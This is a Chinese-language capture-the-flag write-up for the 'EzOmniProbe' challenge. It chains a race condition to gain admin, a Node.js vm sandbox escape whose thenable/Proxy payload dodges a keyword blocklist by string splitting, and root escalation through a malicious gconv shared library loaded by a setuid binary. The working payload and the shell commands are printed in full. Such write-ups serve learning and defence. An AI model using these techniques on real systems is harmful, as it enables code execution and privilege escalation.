










# 6. EzOmniProbe

先访问网站，看见它说了我们的身份指明了许多接口：

访问/api/me发现每次的sid（X-Session-Id）都不一样

Session 可以理解成“服务器给当前访问者分配的一份会话身份”。后续请求如果继续带着同一个session id，服务器就会把这些请求当成“同一个人”的连续操作

如果不固定X-Session-Id，每次刷新或每次新请求都会得到新的sid。这样看到的权限状态、/api/run回显、竞态结果，可能都不是落在同一个会话上，最后会出现“明明打中了，却看不到效果”的情况

然后访问/api/stats，判断这题应该不是普通鉴权，而是竞态

这个字段看起来很奇怪：

last_verify_activity以及heartbeat idle at ...

一个正常给用户用的业务接口，通常不会专门暴露“heartbeat 心跳（在程序里通常表示后台服务或定时器按固定频率执行某个动作，用来维持状态、同步任务或触发检查）”这种很后台化的状态。这说明服务器内部很可能还有一个定时动作，正在周期性地触发某种校验逻辑

结合题目里的接口名字看：

POST /api/verify以及GET /api/stats

比较自然的推断为：

1. 外部用户调用 /api/verify，会把自己放进某个待验证状态

2. 后台内部心跳会在固定时间点消费这个状态

3. 如果时机撞得好，就可能把guest提升为admin

如何撞到admin？

最容易想到的办法是多线程狂打 /api/verify，同时不断查看 /api/me

但是在本地复现时发现，当前环境对127.0.0.1:13503的请求延迟比较大，大概一条请求要2到3秒，这个情况下，普通“等响应后再发下一条”的方法不够好，换用原始HTTP请求做fire-and-forget，也就是“发出去就断开，不等响应回来”

能这么做的原因如下：

1. /api/verify虽然服务端可能会延迟返回，但我们不关心它的响应体

2. 我们只关心它有没有成功把当前sid放进待验证窗口

3. 多发一些“只负责投递、不负责等待”的请求，就更容易覆盖到后台 heartbeat的命中窗口。

具体实现（这里使用的是Burp Suite）：

1. 先在 Repeater 里构造一个 POST /api/verify，请求头带固定 X-Session-Id，请求体用 {}。

2. 另开一个 Repeater，循环查看 GET /api/me。

3. 如果 Burp 版本支持并发发送，可以短时间重复发很多个 /api/verify。

4. 一旦 /api/me 里的 role 变成 admin，就说明前半段成功。

升权后访问：GET /admin

继续访问：GET /admin/debug/source

看看页面渲染：

看到一段和 /api/run 相关的调试源码

源码中读出几个关键信息，接下来应该是沙箱逃逸：

1. 只有 admin 才能调用 POST /api/run

2. 提交的是一段 JavaScript 代码

3. 代码长度不能超过 255。

4. 黑名单拦了几个关键词：

then、constructor、process、require、eval、catch以及箭头函数 =>

5. 代码会放到 Node.js 的 vm 沙箱里执行

6. 执行结果会被后端保存，然后通过 GET /api/run?cursor=N 一位一位读出来（典型的字符 Oracle）

vm 是 Node.js 提供的一个执行 JavaScript 代码的模块。开发者常把它当成“沙箱”来跑不可信代码。但 vm 不是天然绝对安全的，只要上下文、宿主对象、回调处理等地方用得不严谨，还是可能逃逸出来

继续审计发现真正的突破点：

后端在处理 vm 执行结果时，用了 await。

在JavaScript里，await不只是等待Promise。只要一个对象“看起来像Promise”，也就是带有then行为，它就可能被await当成thenable来处理

Thenable 指的是“具有 then 协议行为的对象”。它不一定真的是 Promise，但宿主在 await 它时，会尝试按 Promise 的方式取用它。

因此利用思路变成：

1. 不直接在代码里明写危险对象。

2. 返回一个特殊对象。

3. 让宿主在 await 处理这个对象时，自己把宿主侧回调或能力暴露出来。

4. 再借这个回调的原型链，动态拼出 constructor、process、require 等敏感能力。

为什么能绕过 WAF：

1. 关键字黑名单只查明文字符串和部分 AST 模式。

2. 如果把 constructor 拆成 'constr' + 'uctor'，把 process 拆成 'pro' + 'cess'，把 require 拆成 'requ' + 'ire'，就不会直接命中黑名单。

3. 真正危险的对象和命令执行是在运行时动态拼出来的，不是静态写死的。

本地验证成功的一段核心 payload 思路如下：

c='constr'.concat('uctor');

p='pro'.concat('cess');

q='requ'.concat('ire');

new Proxy({},{get(){return function(r){

r(r[c][c]('return '+p)().mainModule[q]('child_'+p).execSync('id')+'')

}}})

（实际脚本里用的是更短一些的版本，便于控制在 255 字符以内）

这段 payload 的效果是：

1. 触发 thenable 行为

2. 动态拿到宿主侧的 constructor

3. 进一步拼出 process

4. 再拿到 require

5. require('child_process').execSync(...) 执行系统命令

我本地先执行：id

通过 /api/run?cursor=N 读回显，成功得到：

uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)

说明已经拿到了 Web 进程权限下的命令执行，也就是低权限 RCE。

child_process.execSync是Node.js 用来同步执行系统命令的模块接口。只要能碰到它，通常就意味着已经从JS层跨到了操作系统命令层

读取 /api/run 的回显每次只能读一个字符，手工在 Burp Repeater 里改 cursor太慢，选择改为写脚本（api_run_cmd.py）自动并发读取

python api_run_cmd.py --url 网站分配的URL --sid 你的sid

直接进入交互模式

执行cat /flag命令，返回HTTP500，这说明权限不足：

1. flag 文件本身权限更高。

2. Web 服务并不是以 root 运行。

3. 还需要本地提权。

找目录找到一个/usr/local/bin/omni_pkexec，omni_pkexec和题目（EzOmniProbe）很像啊，而且带有setuid

setuid 是 Linux 的一种特殊权限位。一个普通用户执行带 setuid 的程序时，程序运行时会临时拥有文件所有者的权限。如果文件所有者是 root，那么这个程序就可能以 root 权限做事。

从omni_pkexec 的帮助信息和行为可以判断接下来来的操作：

2>&1的意思是把标准错误也并到标准输出里，因为很多程序的 help 或报错会写到 stderr，不这样读不到完整回显

|| true的意思是：即使命令返回非0，也别让整条命令失败。因为这个题里execSync遇到非零退出码可能会让/api/run报错，所以我们常常在枚举命令后面加|| true。

Compatibility mode:

意思是下面这些条件是它进入“兼容模式”时需要满足的。也就是：只有满足下面几项，它才会继续往后加载模块。

1. 它要求环境变量CHARSET必须等于OMNI-LEGACY//

2. 要求环境变量SHELL必须等于omni

3. 要求环境变量OMNI_GCONV_PATH它的值必须是绝对路径/absolute/path/to/module_dir

4 要求指定的模块目录里，要有一个叫gconv-modules的文件，并且文件里要包含要求5的这种配置行

5 当程序要处理字符集OMNI-LEGACY//并且目标类型是INTERNAL时，就去用一个叫omni的模块，代价权重是2

Loads $OMNI_GCONV_PATH/<module>.so and calls gconv_init().

程序会到你指定的目录里加载一个.so文件，这里<module>就是前面配置里的模块名，比如omni，加载完这个.so之后，它会调用里面的gconv_init()

分析后构建攻击思路：

- 通过OMNI_GCONV_PATH指定模块目录
- 这个目录里要有gconv-modules
- 里面要有这行：
module OMNI-LEGACY// INTERNAL omni 2

- 程序会去加载OMNI_GCONV_PATH/omni.so
- 加载后会执行这个.so里的gconv_init()
gconv 是 glibc 的字符集转换模块机制。程序在做字符集转换时，可能按配置去加载某个共享库模块。

如果一个高权限程序允许我们指定模块路径，并且没有把加载来源限制死，那么我们就能自己写一个 .so，共享库里导出 gconv_init()，让高权限程序加载时自动执行我们的代码。

这里的思路就是：

1. 用低权限 RCE 在 /tmp 下创建恶意目录

2. 写一个 gconv-modules 文件

3. 写一个带 gconv_init() 的 C 文件

4. 编译成 omni.so

5. 设置好环境变量：

CHARSET=OMNI-LEGACY//

SHELL=omni

OMNI_GCONV_PATH=/tmp/o

6. 调用 omni_pkexec。

7. 在 gconv_init() 里用 root 权限执行：

cat /flag >/tmp/f; chmod 644 /tmp/f

8. 再由低权限用户读取 /tmp/f。

具体代码脚本：

- rm -rf /tmp/o /tmp/x.c /tmp/f
清理旧文件，避免上一次残留影响结果

- mkdir -p /tmp/o
建模块目录

- printf 'module OMNI-LEGACY// INTERNAL omni 2'>/tmp/o/gconv-modules
写gconv-modules配置，告诉程序要加载omni模块

- printf '#include <stdlib.h>\nvoid gconv_init(){'>/tmp/x.c
写 C 文件开头

- printf 'system("cat /flag>/tmp/f;chmod 644 /tmp/f");'>>/tmp/x.c
把真正的提权动作写进gconv_init()

- printf '} '>>/tmp/x.c
补上函数结尾

- gcc -shared -fPIC /tmp/x.c -o /tmp/o/omni.so
编译成共享库omni.so

- cat /tmp/x.c;ls -l /tmp/o/omni.so /tmp/o/gconv-modules 2>&1 || true
检查源码和生成文件是否都对。

- CHARSET=OMNI-LEGACY// SHELL=omni OMNI_GCONV_PATH=/tmp/o omni_pkexec
按帮助信息要求设置环境变量，触发它加载恶意模块

- cat /tmp/f 2>&1 || true
读取提权后写出来的 flag

最终成功读到 flag：

这题的完整链路可以概括为：

1. 从首页拿到可见接口

2. 通过 /api/me 固定 X-Session-Id

3. 通过 /api/stats 的 heartbeat 字段判断存在后台验证逻辑

4. 用连续 fire-and-forget 请求撞 /api/verify，竞态升到 admin

5. 进入 /admin/debug/source，拿到 /api/run 的调试源码

6. 利用await thenable语义+动态拼接敏感词，完成Node.js vm沙箱逃逸

7. 通过 /api/run?cursor=N 这个字符 Oracle 读回显，确认低权限 RCE

8. 发现并利用 setuid 的 omni_pkexec

9. 通过恶意 gconv 模块把 root 权限下的 /flag 拷到可读位置

10. 成功获得 flag

最后生成一个总的的辅助脚本：exploit_ezomniprobe.py

功能包括：

1. 自动获取并固定 sid。

2. 自动用原始 socket 撞 /api/verify 抢 admin。

3. 自动访问 /admin/debug/source。

4. 自动利用 /api/run 完成 vm 沙箱逃逸。

5. 自动用 cursor Oracle 拼回显。

6. 自动构造恶意 gconv 模块并触发 omni_pkexec。

7. 自动读取最终 flag。

运行方式：

python exploit_ezomniprobe.py

如果目标地址不同，也可以：

python exploit_ezomniprobe.py http://127.0.0.1:13503
